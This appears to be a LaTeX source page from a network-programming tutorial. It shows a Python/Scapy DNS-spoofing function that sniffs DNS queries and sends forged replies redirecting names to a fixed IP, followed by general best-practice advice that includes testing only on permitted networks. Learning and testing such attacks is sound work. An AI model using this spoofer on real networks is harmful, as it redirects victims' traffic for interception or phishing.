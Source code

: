 \documentclass[
  letterpaper,
  DIV=11,
  numbers=noendperiod]{scrreprt}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.68,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{\textcolor[rgb]{0.00,0.23,0.31}{#1}}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.37,0.37,0.37}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.13,0.47,0.30}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.07,0.07,0.07}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}\usepackage{longtable,booktabs,array}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ dns\_spoof(pkt):}
    \ControlFlowTok{if}\NormalTok{ pkt.haslayer(DNS) }\KeywordTok{and}\NormalTok{ pkt.getlayer(DNS).qr }\OperatorTok{==} \DecValTok{0}\NormalTok{:}
\NormalTok{        spoofed\_pkt }\OperatorTok{=}\NormalTok{ IP(dst}\OperatorTok{=}\NormalTok{pkt[IP].src, src}\OperatorTok{=}\NormalTok{pkt[IP].dst) }\OperatorTok{/} \OperatorTok{\textbackslash{}}
\NormalTok{                      UDP(dport}\OperatorTok{=}\NormalTok{pkt[UDP].sport, sport}\OperatorTok{=}\DecValTok{53}\NormalTok{) }\OperatorTok{/} \OperatorTok{\textbackslash{}}
\NormalTok{                      DNS(}\BuiltInTok{id}\OperatorTok{=}\NormalTok{pkt[DNS].}\BuiltInTok{id}\NormalTok{, qr}\OperatorTok{=}\DecValTok{1}\NormalTok{, aa}\OperatorTok{=}\DecValTok{1}\NormalTok{, qd}\OperatorTok{=}\NormalTok{pkt[DNS].qd, an}\OperatorTok{=}\NormalTok{DNSRR(rrname}\OperatorTok{=}\NormalTok{pkt[DNS].qd.qname, ttl}\OperatorTok{=}\DecValTok{10}\NormalTok{, rdata}\OperatorTok{=}\StringTok{"192.168.1.2"}\NormalTok{))}
\NormalTok{        send(spoofed\_pkt, verbose}\OperatorTok{=}\VariableTok{False}\NormalTok{)}

\NormalTok{sniff(}\BuiltInTok{filter}\OperatorTok{=}\StringTok{"udp port 53"}\NormalTok{, prn}\OperatorTok{=}\NormalTok{dns\_spoof)}
\end{Highlighting}
\end{Shaded}

\section{Best Practices}\label{best-practices-9}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  \textbf{Error Handling}: Always include error handling to manage
  unexpected conditions gracefully.
\item
  \textbf{Resource Management}: Ensure resources, such as sockets and
  files, are properly managed and closed.
\item
  \textbf{Security}: Be mindful of security implications, such as
  running sniffing or spoofing scripts, and only use them on networks
  you own or have permission to test.
\item
  \textbf{Documentation}: Document your code to make it easier to
  understand and maintain.
\item
  \textbf{Performance}: Optimize your code for performance, especially
  when dealing with high volumes of network traffic.
\end{enumerate}
\end{document}
